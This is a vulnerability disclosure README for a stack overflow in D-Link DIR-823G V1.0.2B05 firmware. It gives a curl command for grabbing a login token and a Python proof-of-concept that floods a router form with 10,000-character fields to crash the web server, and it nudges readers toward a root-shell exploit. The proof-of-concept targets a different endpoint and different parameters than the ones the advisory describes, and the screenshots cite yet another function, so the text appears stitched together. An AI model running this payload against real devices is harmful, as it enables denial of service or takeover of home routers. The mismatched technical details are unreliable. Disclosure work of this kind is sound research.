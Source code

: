 # Affected Version
Dlink DIR-823G V1.0.2B05
# Vulnerability Description
Dlink DIR-823G V1.0.2B05 was discovered to contain a stack overflow via parameter StartTime and EndTime in SetWifiDownSettings.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/AllPro.aspx

# Vulnerability Details
When the program processes parameters StartTime and EndTime, it uses the size of the parameter string as maxlen, which will cause a buffer overflow.  
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/823G/SetWifiDownSettings/2.jpg)


As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
We need to get the tokenid first  
<pre>
curl http://192.168.0.1/dir_login.asp | grep tokenid
</pre>
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of goahead process.  

<pre>
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/form2lansetup.cgi'

data = {
    'tokenid' : tokenid,
    'dest' : 'a' * 10000, 
    'hostnet' : 'net',
    'netmask' : '255.255.255.0',
    'gateway' : '192.168.0.1',
    'interface' : 'LAN',
    'custom_interface' : 'br0',
    'comment' : 'a' * 10000

}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/823G/SetWLanRadioSecurity/0.png)
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/823G/SetWLanRadioSecurity/1.png)

And you can write your own exp to get the root shell.
